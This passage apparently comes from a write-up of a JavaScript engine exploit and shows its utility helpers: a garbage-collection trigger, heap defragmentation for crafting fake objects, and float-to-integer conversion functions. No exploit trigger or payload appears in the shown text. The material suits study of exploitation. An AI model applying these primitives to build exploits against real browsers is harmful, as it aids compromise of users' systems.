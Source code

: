 ## Main Exploit Logic
We can try to understand my exploit part-by-part. Initially, we have all the standard exploitation utilities to trigger the GC cycle, convert float to int and vice-versa.

```javascript
///////////////////////////////////////////////////////////////////////
///////////////////         Utility Functions       ///////////////////
///////////////////////////////////////////////////////////////////////

let hex = (val) => '0x' + val.toString(16);

function gc() {
    for (let i = 0; i < 0x10; i++) new ArrayBuffer(0x1000000);
}

function print(msg) {
    // %DebugPrint(msg);
    console.log("[+] " + msg);
}

function js_heap_defragment() { // used for stable fake JSValue crafting
    gc();
    for (let i = 0; i < 0x1000; i++) new ArrayBuffer(0x10);
    for (let i = 0; i < 0x1000; i++) new Uint32Array(1);
}

// 8 byte array buffer
const __buf = new ArrayBuffer(8);
const __f64_buf = new Float64Array(__buf);
const __u32_buf = new Uint32Array(__buf);

// typeof(val) = float
function ftoi(val) {
    __f64_buf[0] = val;
    return BigInt(__u32_buf[0]) + (BigInt(__u32_buf[1]) << 32n); // Watch for little endianness
}

// typeof(val) = BigInt
function itof(val) {
    __u32_buf[0] = Number(val & 0xffffffffn);
    __u32_buf[1] = Number(val >> 32n);
    return __f64_buf[0];
}

function sleep(ms) {
    return new Promise(resolve => setTimeout(resolve, ms));
}

function reverse(x) {
    var buf = new ArrayBuffer(0x20);
    var view1 = new BigInt64Array(buf);
    var view2 = new Uint8Array(buf);
    view1[0] = x;
    view2.reverse();
    return view1[3];
}

function assert(x) {
    console.assert(x);
}
```

